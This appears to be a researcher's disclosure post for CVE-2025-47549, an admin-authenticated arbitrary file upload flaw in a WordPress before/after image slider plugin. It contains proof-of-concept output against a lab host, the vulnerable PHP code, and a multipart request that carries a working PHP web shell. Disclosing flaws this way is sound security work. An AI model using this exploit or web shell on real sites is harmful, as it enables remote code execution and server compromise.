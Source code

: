 +++
title = 'Ultimate Before After Image Slider & Gallery – BEAF <= 4.6.10 - Authenticated (Admin+) Arbitrary File Upload via beaf_options_save'
date = 2025-05-07T05:18:12+00:00
hideToc = true
+++
### CVE-2025-47549

The [Ultimate Before After Image Slider & Gallery](https://wordpress.org/plugins/beaf-before-and-after-gallery/) plugin does not sanitize the file types of the `beaf_options_save` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47549.py](https://github.com/d0n601/CVE-2025-47549/blob/main/CVE-2025-47549.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-47549.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 68200sec preferred_lft 68200sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86113sec preferred_lft 14113sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>

```

## Details  
The `beaf_options_save` action calls the `beaf_save_options()` function on line [227](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L227) of `/wp-content/plugins/beaf-before-and-after-gallery/admin/tf-options/classes/BEAF_Settings.php` without enforcing any file type validation. 

Lines [281-292](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L281-292) of this function check the http request for `$_FILES` and only validates the mime type agains a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.
```php
    if ( isset( $_FILES ) && ! empty( $_FILES['file'] ) ) {
        $tf_upload_dir = wp_upload_dir();
        if ( ! empty( $tf_upload_dir['basedir'] ) ) {
            $tf_itinerary_fonts = $tf_upload_dir['basedir'] . '/itinerary-fonts';
            if ( ! file_exists( $tf_itinerary_fonts ) ) {
                wp_mkdir_p( $tf_itinerary_fonts );
            }
            $tf_fonts_extantions = array( 'application/octet-stream' );
            for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
                if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
                    $tf_font_filename = $_FILES['file']['name'][ $i ];
                    move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
                }
            }
        }
    }
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Before and After Slider -> Settings`.
    * Example: `https://lab1.hacker/wp-admin/edit.php?post_type=bafg&page=beaf_settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](/posts/images/cve-2025-47549/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](/posts/images/cve-2025-47549/2.png)
7. Naviage to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-47549/3.png)
